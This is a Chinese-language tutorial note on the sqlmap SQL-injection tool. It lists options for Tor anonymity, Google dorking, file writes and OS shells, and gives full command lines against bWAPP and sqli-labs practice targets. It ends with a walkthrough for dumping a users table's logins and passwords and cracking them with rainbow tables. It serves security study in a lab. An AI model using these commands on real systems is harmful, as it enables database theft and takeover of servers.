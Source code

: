 # 自动化注入

## Sqlmap

优点在于集成了大量payload,对检测和利用的自动化处理

不仅有mysql数据库,还具有其他数据库攻击方法

可以直接去官网看文档查看

#### 特性

DBMS 很多很多...

六种SQL注入方法的支持

#### 重要功能 

-v 0~6

1 只显示error和critical

2 显示informatino和warning级别信息

3 显示debug级别信息

4 额外显示注入的playload (有用!)

5 额外显示HTTP请求内容

6 额外显示HTTP响应头

7 额外显示HTTP响应页面内容

-d 通过sqlmap直接链接数据库

-u | --url 选定一个url目标

-d | --data 默认GET方法,通过该选项可以修改为POST

--cookie 设定cookie

    先登录WebAPP
    
    抓包获取cookie
    
    将cookie填写到选项设置内

--user-agent | --random-agent HTTP请求头

#### 携带cookie

使用 bwapp SQl注入 get/select low级别进行测试

bqapp sql get/select

PHPSESSID=t2vl70q6kbjjjl8erqd9gsjn82; security_level=0

此处构造语句
 py sqlmap.py -cookie "PHPSESSID=t2vl70q6kbjjjl8erqd9gsjn82; security_level=0" -u "http://192.168.0.108/sqli_2.php?movie=1&action=go" -f --banner --dbs --users
 
直接等待结果即可 Ps 中间可能会卡住,需要敲一下回车

#### 修改user-agent请求头

使用bwapp sql注入 stored user-agent low 进行测试

此处构造语句
 py sqlmap.py -cookie "PHPSESSID=t2vl70q6kbjjjl8erqd9gsjn82; security_level=0" -u "http://192.168.0.108/sqli_17.php" -f --banner --dbs --users

发现user-agent属性为sqlmap/1.4.8.10#dev (http://sqlmap.org)

我们来继续设定

py sqlmap.py -cookie "PHPSESSID=t2vl70q6kbjjjl8erqd9gsjn82; security_level=0" -u "http://192.168.0.108/sqli_17.php" --user-agent "test" -f --banner --dbs --users

可以看到user-agent变成test成功

####  通过level设定检测深度

在user-agent测试中,尝试注入是失败的 此时测试深度不够,需要借助于level选项

当 --level 3 时,sqlmap会对user-agent进行测试

执行测试的等级1-5,默认为1

level 达到2 会尝试cookie注入

level 达到3 会尝试User-Agent注入

level 达到5 会对host头注入测

#### 检测结果

sqlmap会将历史检测存储

#### --proxy 代理

有时候网络不可达需要使用代理功能进行测试,

--tor --tor-port -tor-type --check-tor

达到匿名的目的

#### Google hacking

-g 选项 

例如 py sqlimap.py -g "inurl:.jsp?id=12"

#### risk level 联合对思路的影响

risk级别升高会引入or update 等可能对数据表内容修改的语句

对sqli-labs less31 进行测试

不加 ?id=1 且没参数 少量测试后退出

加参数且 risk3 level5 发现可以注入

不加参数且 risk3 level5 会使用大量payload尝试所有注入点

#### --privileges --is-dba

--privileges 用于检测当前用户有哪些权限

--is-dba 用于判断当前查询用户是不是dba

#### --file-read --file-write --file-dest

read 读取全部用户信息

write-dest 将本地的文件传输到服务器上

#### --os-cmd --shell

强大的指令!!!

需要具备文件夹写权限(root权限)

网站路径提供部分默认选项

PHP主动转义功能关闭

#### 实战脱库

先进行测试

py sqlmap.py --cookie "security_level=0; PHPSESSID=m7m9231f66dpnh0kqg6et092s1" -u "http://192.168.0.108/sqli_2.php?movie=1&action=go" --level 3

接下来使用 --dbs 发现数据库信息

--dbs -D bWAPP -tables 发现详细数据表名

--dbs -D bWAPP -tables -T users --columns

--dbs -D bWAPP -tables -T users --columns -C login,password

--dbs -D bWAPP -tables -T users --columns -C login,password -dump-all

即可完成脱库,并且自己可以基于彩虹表碰撞对弱密码进行解密

